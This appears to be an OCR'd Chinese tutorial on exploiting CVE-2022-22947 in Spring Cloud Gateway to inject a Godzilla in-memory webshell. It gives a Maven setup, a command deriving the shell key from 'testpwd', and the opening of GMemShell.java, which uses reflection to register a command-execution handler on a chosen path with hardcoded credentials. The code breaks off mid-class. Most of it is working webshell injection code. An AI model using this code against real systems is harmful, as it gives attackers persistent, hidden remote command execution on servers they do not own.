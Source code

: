 ### 环境

创建Maven项目，引入依赖

```xml
<dependencies>
  <dependency>
    <groupId>org.springframework.cloud</groupId>
    <artifactId>spring-cloud-starter-gateway</artifactId>
    <version>3.0.6</version>
  </dependency>
</dependencies>
```

### 构造
> 这里使用 [GMemShell.java](https://github.com/whwlsfb/cve-2022-22947-godzilla-memshell/blob/main/GMemShell.java) 哥斯拉内存马，具体分析文章参考：[CVE-2022-22947 注入哥斯拉内存马](https://blog.wanghw.cn/tech-share/cve-2022-22947-inject-godzilla-memshell.html)

构造内存马，设置变量`pass`及`key`，另外`doInject`方法传入的`path`参数为木马路径

此处`key`是明文`testpwd`的**MD5值前16位**

```shell
$ echo -n "testpwd" | md5 | cut -c 1-16

```



```java
import org.springframework.http.HttpStatus;
import org.springframework.http.ResponseEntity;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.reactive.result.method.RequestMappingInfo;
import org.springframework.web.server.ServerWebExchange;
import reactor.core.publisher.Mono;

import java.lang.reflect.Method;
import java.net.URL;
import java.net.URLClassLoader;
import java.util.HashMap;
import java.util.Map;

public class GMemShell {
  public static Map<String, Object> store = new HashMap<>();
  public static String pass = "test", md5, key = "342df5b036b2f281";
  
  public static String doInject(Object obj, String path) {
    String msg;
    try {
      md5 = md5(pass + key);
      Method registerHandlerMethod = obj.getClass().getDeclaredMethod("registerHandlerMethod", Object.class, Method.class, RequestMappingInfo.class);
      registerHandlerMethod.setAccessible(true);
      Method executeCommand = GMemShell.class.getDeclaredMethod("cmd", ServerWebExchange.class);
      RequestMappingInfo requestMappingInfo = RequestMappingInfo.paths(path).build();
      registerHandlerMethod.invoke(obj, new GMemShell(), executeCommand, requestMappingInfo);
      msg = "ok";
    } catch (Exception e) {
      e.printStackTrace();
      msg = "error";
    }
    return msg;
  }
  
  
```